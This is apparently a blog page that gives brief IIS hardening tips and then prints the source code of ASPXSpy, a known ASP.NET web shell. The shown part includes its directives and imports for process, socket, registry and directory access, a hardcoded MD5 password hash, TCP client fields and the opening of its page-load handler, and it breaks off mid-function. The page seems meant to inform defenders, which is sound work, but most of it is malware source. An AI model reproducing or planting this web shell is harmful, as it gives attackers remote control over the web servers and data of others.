 To help prevent getting Trojans or having server security problems, install the latest patches/updates and check MS Technet for latest security information. You can also install and setup Urlscan from IIS Net Download Center, which may help prevent some types of attacks.

If you run Microsoft Security Essentials as part of IIS Server maintenance you can detect and remove threats before they have a chance to cause problems.


### ASPXSpy Script Source Code

<pre class="brush: jscript; title: ; notranslate" title="">&lt;%@ Page Language="C#" Debug="true" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%&gt;
&lt;%@ import Namespace="System.IO"%&gt;
&lt;%@ import Namespace="System.Diagnostics"%&gt;
&lt;%@ import Namespace="System.Data"%&gt;
&lt;%@ import Namespace="System.Management"%&gt;
&lt;%@ import Namespace="System.Data.OleDb"%&gt;
&lt;%@ import Namespace="Microsoft.Win32"%&gt;
&lt;%@ import Namespace="System.Net.Sockets" %&gt;
&lt;%@ import Namespace="System.Net" %&gt;
&lt;%@ import Namespace="System.Runtime.InteropServices"%&gt;
&lt;%@ import Namespace="System.DirectoryServices"%&gt;
&lt;%@ import Namespace="System.ServiceProcess"%&gt;
&lt;%@ import Namespace="System.Text.RegularExpressions"%&gt;
&lt;%@ Import Namespace="System.Threading"%&gt;
&lt;%@ Import Namespace="System.Data.SqlClient"%&gt;
&lt;%@ import Namespace="Microsoft.VisualBasic"%&gt;
&lt;%@ Assembly Name="System.DirectoryServices,Version=2.0.0.0,Culture=neutral,PublicKeyToken=B03F5F7F11D50A3A"%&gt;
&lt;%@ Assembly Name="System.Management,Version=2.0.0.0,Culture=neutral,PublicKeyToken=B03F5F7F11D50A3A"%&gt;
&lt;%@ Assembly Name="System.ServiceProcess,Version=2.0.0.0,Culture=neutral,PublicKeyToken=B03F5F7F11D50A3A"%&gt;
&lt;%@ Assembly Name="Microsoft.VisualBasic,Version=7.0.3300.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a"%&gt;
&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"&gt;
&lt;script runat="server"&gt;
/*
Thanks Snailsor,FuYu,BloodSword,Cnqing,
Code by Bin
Make in China
Blog: http://alikaptanoglu.blogspot.com
E-mail : ali_kaptanoglu@hotmail.com
*/
public string Password="21232f297a57a5a743894a0e4a801fc3";//admin
public string vbhLn="ASPXSpy";
public int TdgGU=1;
protected OleDbConnection Dtdr=new OleDbConnection();
protected OleDbCommand Kkvb=new OleDbCommand();
public NetworkStream NS=null;
public NetworkStream NS1=null;
TcpClient tcp=new TcpClient();
TcpClient zvxm=new TcpClient();
ArrayList IVc=new ArrayList();
protected void Page_load(object sender,EventArgs e)
{
YFcNP(this);
fhAEn();
if (!pdo())
{
return;
}
if(IsPostBack)
{